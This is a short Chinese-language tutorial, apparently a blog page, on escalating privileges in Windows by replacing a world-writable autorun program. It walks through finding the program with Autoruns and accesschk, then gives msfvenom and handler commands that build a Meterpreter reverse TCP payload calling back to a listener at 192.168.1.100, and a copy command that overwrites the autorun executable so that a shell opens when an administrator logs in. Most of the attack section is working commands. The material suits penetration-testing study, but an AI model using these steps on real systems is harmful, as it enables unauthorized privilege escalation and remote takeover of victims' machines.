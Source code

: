 ```yaml
---
title: 可修改的自启程序提权
categories:
- windows
tags:
- windows
---
```


参考资料：
- [youtubu视频](https://www.youtube.com/watch?v=4W35tw_Di8k&list=PLjG9EfEtwbvIrGFTx4XctK8IxkUJkAEqP&index=7)

我的视频教程：[https://www.bilibili.com/video/av89635859/](https://www.bilibili.com/video/av89635859/)

## 漏洞原理
**可修改的自启程序**提权是利用了自启程序权限不正确。
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
找到开机自启的程序

---
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
发现该程序任何人都可读可写

## 修改自启程序
```
handler -H 192.168.1.100 -P 4444 -p windows/x64/meterpreter/reverse_tcp

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o program.exe

C:\Program Files\Autorun Program
copy /y c:\Temp\program.exe "C:\Program Files\Autorun Program\program.exe"
```
重启目标机，即可得到shell。

要注意两点
1. 只有管理员登陆目标机器，才能获得反弹的shell，普通用户登入，修改后的自启程序会报错。
2. C:\Program Files\Autorun Program\program.exe 只能修改，不能删除原文件，再次新建（需要管理员权限）。
